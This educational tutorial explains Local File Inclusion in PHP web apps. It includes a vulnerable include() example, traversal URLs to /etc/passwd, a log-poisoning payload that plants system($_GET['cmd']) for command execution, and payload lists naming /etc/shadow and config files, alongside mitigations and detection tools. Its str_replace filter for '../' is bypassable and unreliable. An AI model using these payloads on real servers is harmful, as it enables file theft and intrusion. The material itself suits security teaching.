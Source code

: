## Local File Inclusion (LFI)
Local File Inclusion (LFI) is **a web security vulnerability that allows an attacker to include files from the server’s local file system into a web application’s output**. This often happens when user input is not properly validated, enabling attackers to read sensitive files, execute code, or escalate privileges.

## 1. How Local File Inclusion Works
LFI occurs when a web application **dynamically includes a file based on user input without proper validation or sanitization**.

### Vulnerable Code Example
```
<?php
    $file = $_GET['file'];
    include("pages/" . $file);
?>
```

- Input URL
```
http://example.com/index.php?file=about.php
```
- The above input includes about.php from the server’s pages/ directory.

### Malicious Input
An attacker can manipulate the file parameter to traverse directories:
```
http://example.com/index.php?file=../../../../etc/passwd
```
- This includes the /etc/passwd file on a Linux system, leaking user account information.


## 2. Exploiting LFI
LFI can be used to

1. **Read Sensitive Files**
  - Access system files like
    - Linux
      - /etc/passwd (user account info)
      - /var/log/apache2/access.log (web server logs)
    - Windows
      - C:\windows\win.ini
      - C:\xampp\apache\logs\access.log
2. **Code Execution**
  - Include files containing malicious PHP code or scripts uploaded to the server.
  - Example
```
http://example.com/index.php?file=uploads/malicious.php
```

3. **Log Poisoning**
- Write malicious code into server logs and include the log file.
- Steps
  - Send a crafted request that writes a payload into access logs.
  - Include the log file to execute the malicious payload.
- Example payload:
```
http://example.com/%3C?php%20system($_GET['cmd']);%20?%3E
```

- Access log location
```
http://example.com/index.php?file=../../../../var/log/apache2/access.log&cmd=id
```

4. **Access Configuration Files**
  - Retrieve sensitive server configurations like:
    - wp-config.php in WordPress (database credentials).


## 3. Real-World LFI Example
A vulnerable web application might accept a page parameter like this
```
http://example.com/index.php?page=home.php
```

By exploiting LFI, an attacker could use directory traversal to access sensitive files
```
http://example.com/index.php?page=../../../../etc/passwd
```

### Result
The content of /etc/passwd is displayed, leaking usernames and system information.


## 4. Mitigation Techniques
1. **Input Validation**
  - Ensure user input is validated and sanitized.
  - Allow only predefined or whitelisted file names.

### Example
```
$allowed_files = ['home.php', 'about.php', 'contact.php'];
if (in_array($file, $allowed_files)) {
    include("pages/" . $file);
} else {
    die("Access Denied");
}
```

2. **Avoid Dynamic File Inclusion**
  - Avoid using include() or require() with user-supplied input.
3. **Disable Directory Traversal**
  - Remove special characters like ../ or ..\\ from input.

### Example
```
$file = str_replace(array('../', '..\\'), '', $_GET['file']);
```

4. **Restrict File Permissions**
  - Configure proper file and directory permissions
    - Limit access to sensitive files.
    - Ensure uploaded files are placed outside the web root.
5. Use basename() to **Filter Input**
  - Strip directory path traversal attempts.
```
$file = basename($_GET['file']);
```

6. **Web Application Firewalls (WAFs)**
  - Deploy WAFs to block suspicious file inclusion patterns.
7. **Disable PHP File Execution in Upload Folders**
  - For Apache, add the following .htaccess rule
```
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```


## 5. Tools to Detect LFI
1. **Burp Suite**
  - Use Burp Intruder to test for directory traversal and LFI.
2. **OWASP ZAP**
  - Automated scanning for LFI vulnerabilities.
3. Manual Testing
  - Test with payloads like
```
../../../../etc/passwd
..\..\..\..\windows\win.ini
```

4. **Metasploit**
  - Exploits LFI vulnerabilities and automates tests.


## 6. Common LFI Payloads

### Linux Payloads
- /etc/passwd
- /etc/shadow (requires elevated permissions)
- /var/log/apache2/access.log
- /proc/self/environ

### Windows Payloads
- C:\windows\win.ini
- C:\xampp\apache\logs\access.log

### Other Common Payloads
- ../../../../../etc/hosts
- ../../../../var/log/nginx/error.log


## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is LFI? | A vulnerability allowing inclusion of local server files. |
| Impact | Reading sensitive files, executing malicious code, log poisoning. |
| Exploitation Methods | Directory traversal, uploading files, including logs for code execution. |
| Prevention Techniques | Input validation, file whitelisting, disabling directory traversal. |
| Tools | Burp Suite, OWASP ZAP, Metasploit, manual testing. |


**Local File Inclusion (LFI) is a dangerous vulnerability that can expose sensitive server files or even enable remote code execution if combined with techniques like log poisoning or file uploads**. Proper **input validation**, **restricting dynamic file inclusion**, and **enforcing secure configurations** are critical defenses to prevent LFI exploits.